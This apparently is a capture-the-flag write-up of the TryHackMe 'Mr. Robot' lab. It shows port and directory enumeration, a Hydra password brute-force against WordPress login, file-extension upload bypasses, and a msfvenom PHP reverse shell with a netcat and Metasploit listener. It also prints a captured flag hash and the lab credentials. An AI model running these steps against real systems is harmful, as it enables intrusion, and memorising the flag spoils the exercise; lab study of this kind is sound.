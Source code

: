 
# 🕵️ Mr. Robot CTF – TryHackMe

**Target:** `robot.thm`  
**Goal:** Capture all 3 keys

---

## 📡 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sC -sV -p- -oN scans/nmap.txt robot.thm
````

| Port | Service          | Version   |
| ---- | ---------------- | --------- |
| 22   | OpenSSH          | 8.2p1     |
| 80   | Apache httpd     | (default) |
| 443  | Apache httpd SSL | (default) |

---

### 🧭 Gobuster Results

* `/robots.txt`

  * `fsocity.dic` → wordlist
  * `key-1-of-3.txt` → captured ✅
* `/fsocity.dic` → used for brute-force, deduped
* `/intro` → WebM video (cosmetic)
* `/login`, `/wp-admin/` → WordPress login/admin
* `/wp-content/` → potential shell upload location
* `/wp-config` → not exposed
* `/readme`, `/license` → WordPress indicators

---

### 🔐 WordPress Discovery

* WordPress version: **4.3.1** (via wpscan/readme)
* Media upload feature is active
* Admin login page confirmed at `/wp-login.php`

---

## 🗝️ Key Progress

| Key        | Status | Hash/Info                          |
| ---------- | ------ | ---------------------------------- |
| Key 1 of 3 | ✅      | `073403c8a58a1f80d943455fb30724b9` |
| Key 2 of 3 | ⬜      | —                                  |
| Key 3 of 3 | ⬜      | —                                  |

---

## 🧪 Credential Brute-Force

### 📂 Wordlist Cleanup

```bash
sort -u fsocity.dic > fsocity-uniq.txt
```

### 🔓 Hydra Attack

**Initial attempt (false positives):**

```bash
hydra -l elliot -P fsocity-uniq.txt robot.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:S=Dashboard"
```

**Refined with fail-string:**

```bash
hydra -l elliot -P fsocity-uniq.txt robot.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username" -o scans/hydra-login.txt
```

✅ **Valid credentials found:**

* **Username:** `elliot`
* **Password:** `ER28-0652`

---

## 🧰 Exploitation – Media Upload Reverse Shell

### 🎯 Goal

Upload a PHP reverse shell via WordPress media panel.

---

### 🧭 Recon

* Logged in at `/wp-admin/` as `elliot`
* Navigated to **Media → Add New**
* Uploading `.php` directly blocked

**Bypass attempts:**

* `shell.php.jpg`
* `shell.php.png`
* `shell.phtml`
* (Plan to try MIME spoofing via Burp if needed)

---

### 🧰 Payload Creation

```bash
msfvenom -p php/reverse_php LHOST=<your_ip> LPORT=4444 -f raw > shell.php
mv shell.php shell.php.jpg
```

*Alternatively:* `php-reverse-shell.php` (Pentestmonkey)

---

### ☁️ Upload & Path Check

* Upload through Media interface
* Expected path:
  `/wp-content/uploads/YYYY/MM/shell.php.jpg`

---

### 🎧 Listener Setup

```bash
nc -lvnp 4444
```

*Metasploit alternative:*

```bash
use exploit/multi/handler
set PAYLOAD php/reverse_php
set LHOST <your_ip>
set LPORT 4444
run
```

---

### 🧠 Observations

* Login failure pattern was clean for brute force
* WP appears secure unless logged in
* Next challenge is triggering the shell

---

## 🔜 Next Steps

* [ ] Attempt to trigger uploaded shell
* [ ] If blocked, test MIME spoofing via Burp
* [ ] Explore alternative RCE (theme editor, plugin upload)
* [ ] Upon success: stabilize shell and begin local enumeration
* [ ] Search for Key 2 and privilege escalation vectors

---

🗃️ *This file contains secrets and is excluded via `.gitignore`*



